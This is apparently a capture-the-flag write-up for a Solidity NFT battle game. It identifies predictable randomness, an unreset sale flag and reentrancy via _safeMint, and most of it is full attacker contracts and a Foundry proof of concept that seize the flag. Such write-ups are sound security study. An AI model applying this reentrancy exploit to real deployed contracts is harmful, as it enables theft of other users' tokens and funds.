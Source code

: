 # Game

## Challenge

The Game.sol is deployed with the flagHolder holding an apparently unbeatable deck with perfect Mons.

Your mission is to obtain the flag: i.e. game.flagHolder() should return an address that you control


## Solution

### Setup

In the original Version the contract was deployed on rinkeby and you should solve the challenge by forking Rinkeby. Unfortunately RInkeby is not really in use anymore so i decided on developing my own setup for the challenge using foundry.


### Analysis

#### Bad Randomness

THe first vulnerability i found is that you can exactly predict the stats of your mon, as the randomness is only derived from block.number and some other values that we know.


#### Inefficient indexOf
The loop in indexof doesn't break when it finds the id inside the decks array.

#### ForSale not removed
The true vlue in forSale() stays set after the swap and doesn't get reset to 0.


#### Reentrancy in swap()
There is a possible reentrancy attack introduced by the _safeMint() functions in the swap() function. 


### Attacks

First i thought just generating myself 3 supermons would be enough to solve this chal. Unfortunately in this case you still lose all the fights, as you need to have a higher speed value. 

My next idea was to exploit the potential reentrancy in _safeMint() to loan myself 6 NFTS and be able to just lose 3 and still have a bigger balance than the other one. The "flashloan" exploiting the 2 _safeTransfers did actually work pretty good. Unfortunately i ran into the issue that my first 3 NFTs were burned during the fight and i was not able to return the first 3 i used to swap for the following ones.

Further improving upon my reentrancy plan i had the idea, that as the forSale value stays set after the fight, we could swap our newly receive NFTs with the 0x0 address to get the right ids back using the commands:
```solidity
game.swap(address(0), 12, 3);
game.swap(address(0), 13, 4);
game.swap(address(0), 14, 5);
```
Unfortunately this also didn't work as ERC721 includes an assert that reverts in cas of a transfer to the 0 address.

### Exploit
Finally I got the idea of how to solve the challenge. I could exploit the reentrancy between both safeMint functions, to transfer all my nfts out (knowing that i will get one back for them later) and then as soon as all 3 are gone call join() again to get 3 new ones. As 3 would still not be enough, because the win function only changes if we have more nfts in our balance than the flagholder(3 get destroyed during the fight so we then also have 3 left), we need to do this 2 times to have more left, even after losing 3. 

To exploit this I developed 2 contracts. A feeder account which is used for storing our nfts while we want to get new ones and an Attacker contract to facilitate the whole attack and claim the flag in the end.

Feeder:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.12;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import "./Game.sol";
import "./Attacker.sol";

contract Feeder is IERC721Receiver
{
    Game public game;
    Attacker atk; 
    constructor(address _game)
    {
        atk = Attacker(msg.sender);

        game = Game(_game);
        game.join();

        if (game.totalSupply() == 9)
        {
            game.putUpForSale(6);
            game.putUpForSale(7);
            game.putUpForSale(8);
        }
        else if (game.totalSupply() == 12)
        {
            game.putUpForSale(9);
            game.putUpForSale(10);
            game.putUpForSale(11);
        }
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4)
    {
        atk.getNext();
        return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
    }
}
```


Attacker:
```solidity 
// SPDX-License-Identifier: MIT
pragma solidity 0.8.12;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import "./Game.sol";
import "./Feeder.sol";

contract Attacker is IERC721Receiver
{
    Game public game;
    Feeder feed1;
    Feeder feed2;
    uint256 nfts_sent = 0;

    constructor(address _game)
    {
        game = Game(_game);

        game.join();

        feed1 = new Feeder(_game);
        feed2 = new Feeder(_game);
    }

    function getEmAll() public
    {
        game.swap(address(feed1), 3, 6);
    }

    function getNext() public
    {
        nfts_sent++;
        if(nfts_sent == 3)
        {
            game.join();
        }
        else if (nfts_sent == 6)
        {
            game.join();
        }

        if (nfts_sent < 3)
        {
            game.swap(address(feed1), 3+nfts_sent, 6+nfts_sent);
        } 
        else if (nfts_sent < 6)
        {
            game.swap(address(feed2), 9+nfts_sent, 6+nfts_sent);
        }
    }

    function fightEmAll() public
    {
        game.fight();
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4)
    {
        return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
    }
}
```

### Finished POC


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../lib/forge-std/src/Test.sol";
import "../src/Game.sol";
import "../src/Attacker.sol";

contract Hack is Test {
    Game game;

    address bigBoss = makeAddr("bigBoss");
    address hacker = makeAddr("hacker");
    address hacker2 = makeAddr("hacker2");
    uint blockGasLimit = 120000;

    function setUp() public {
        //Deal some money to everyone
        vm.deal(bigBoss, 1 ether);
        vm.deal(hacker, 1 ether);

        vm.startPrank(bigBoss);
        //Deploy the game contract
        game = new Game();
        vm.stopPrank();
    }

    function test_attack() public {
        vm.startPrank(hacker);

        Attacker atk = new Attacker(address(game));

        //get 9 mons
        atk.getEmAll();

        //fight to make the atk contract the flag holder
        atk.fightEmAll();

        vm.stopPrank();

        assertEq(game.flagHolder(), address(atk));
    }
}
```
